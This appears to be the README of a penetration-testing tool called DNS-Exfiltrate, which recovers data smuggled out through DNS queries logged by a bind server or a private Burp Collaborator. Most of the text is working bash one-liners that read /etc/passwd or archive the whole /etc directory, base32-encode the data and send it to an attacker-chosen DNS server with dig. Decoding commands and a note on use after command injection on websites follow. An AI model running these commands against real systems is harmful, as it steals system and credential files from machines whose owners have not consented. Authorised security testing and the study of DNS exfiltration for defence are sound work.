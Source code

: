 # DNS-Exfiltrate

Parses bind query logs or private Burp Collaborator output to exfiltrate data. Note that you will get more reliable results by specifying the name server via `dig @`...

Burp Collaborator allows appending hostnames to the provided address. For example: assume this is your collaborator address: `h6olm71com6vuvx1bsaqddjik9q4et.oastify.com`

You may prepend a 'hostname' (maximum length of a DNS label is 63 bytes), assuming it uses characters safe in a DNS query (such as base32-encoded data, see below). This allows exfiltration (including blind exfiltration) of data via DNS.

Here is the base32-encoded output from `whoami` exfiltrated via Burp Collaborator:

`O53XOLLEMF2GCCQ.h6olm71com6vuvx1bsaqddjik9q4et.oastify.com`

`dns-parse.py` parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee`:

```
java -jar /root/collaborator/burpsuite_pro.jar --collaborator-server | tee /root/collaborator/collaborator.log
```

Assumes hostnames are encoded in `base32` (`A-Z`, `2-7`), which most efficent native (on most Linux/Unix systems) utility that is safe for DNS queries. The `=` character is not DNS safe, but can be trimmed using `tr -d =` on Linux/Unix systems. `dns-parse.py` adds any missing `=` characters back.

Hex encoding is also safe for DNS queries (but is less efficient). I may add hex support in the future. `base64` does not work due to `/` and `+`.

Thanks to Xavier Mertens for this excellent Internet Storm Center post: https://isc.sans.edu/diary/DNS+Query+Length...+Because+Size+Does+Matter/22326

Use cases (bash):

## Exfiltrate a file:

```
cat /etc/passwd | base32 -w 63 | tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover the file (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d
```

To recover the file (on a private Burp Collaborator server):

```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d
```

## Exfiltrate a compressed file:

```
cat /etc/passwd | gzip - | base32 -w 63 | tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover/unzip the file (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d | zcat
```

To recover/unzip the file (on a private Burp Collaborator server):

```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d | zcat 
```

## Exfiltrate a compressed tar archive of a directory:

Note that exfiltrating /etc on an Ubuntu Linux system worked perfecttly (but took a while). It took 35 minutes, requiring 45,382 DNS requests, resulting in a 1.8 megabyte tar.gz file. Needless to say: the files/directories contained in the archive are restricted by the permissions of the running user. For command injection on web sites (using an account such as apache or www-data), many files/directories will likely be missing.

```
tar czf - /etc | base32 -w 63 |tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover the tar file (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d > exfiltrated.tgz
```

To recover the tar file (on a bind DNS server):

```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d > exfiltrated.tgz
```
